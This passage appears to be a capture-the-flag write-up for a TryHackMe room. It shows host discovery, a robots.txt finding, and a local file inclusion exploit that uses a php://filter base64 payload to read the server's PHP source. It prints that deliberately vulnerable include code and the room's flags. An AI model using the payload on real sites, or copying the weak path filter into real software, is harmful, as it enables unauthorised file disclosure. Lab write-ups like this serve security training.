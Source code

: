 - First of all you must visit `http://archangel.thm/flags/flags.html` because it's the CLASSIC !!! ❤️
  
- On the support page of main domain you'll see `Mafialive Solutions`. That's new domain, add it to `/etc/hosts` and visit it for the first flag. `thm{f0und_th3_r1ght_h0st_n4m3} `

- I always check `/robots.txt` (bug bounty habit lol) and there I found hidden page.

  ```
  http://mafialive.thm/robots.txt
  User-agent: *
  Disallow: /test.php
  ```

- When you visit `/test.php` you will have a button that when pressed will redirect you to `http://mafialive.thm/test.php?view=/var/www/html/development_testing/mrrobot.php`.

- This smells like LFI, so I captured the request with Burp and started experimenting with it. `/etc/passwd` is not allowed without path traversal but with some encoding I got access to `/test.php`

  ```
  http://mafialive.thm/test.php?view=php://filter/convert.base64-encode/resource=/var/www/html/development_testing/test.php

  CQo8IURPQ1RZUEUgSFRNTD4KPGh0bWw+Cgo8aGVhZD4KICAgIDx0aXRsZT5JTkNMVURFPC90aXRsZT4[SNIP!]
  ```

- It's a long string, decode it and you'll get a second flag.

  ```
  echo 'string' | base64 -d
  <!DOCTYPE HTML>
  <html>
  
  <head>
      <title>INCLUDE</title>
      <h1>Test Page. Not to be Deployed</h1>
   
      </button></a> <a href="/test.php?view=/var/www/html/development_testing/mrrobot.php"><button id="secret">Here is a button</button></a><br>
          <?php
  
              //FLAG: thm{explo1t1ng_lf1}
  
              function containsStr($str, $substr) {
                  return strpos($str, $substr) !== false;
              }
              if(isset($_GET["view"])){
              if(!containsStr($_GET['view'], '../..') && containsStr($_GET['view'], '/var/www/html/development_testing')) {
                  include $_GET['view'];
              }else{
  
                  echo 'Sorry, Thats not allowed';
              }
          }
          ?>
      </div>
  </body>
  
  </html>
  ```
  
---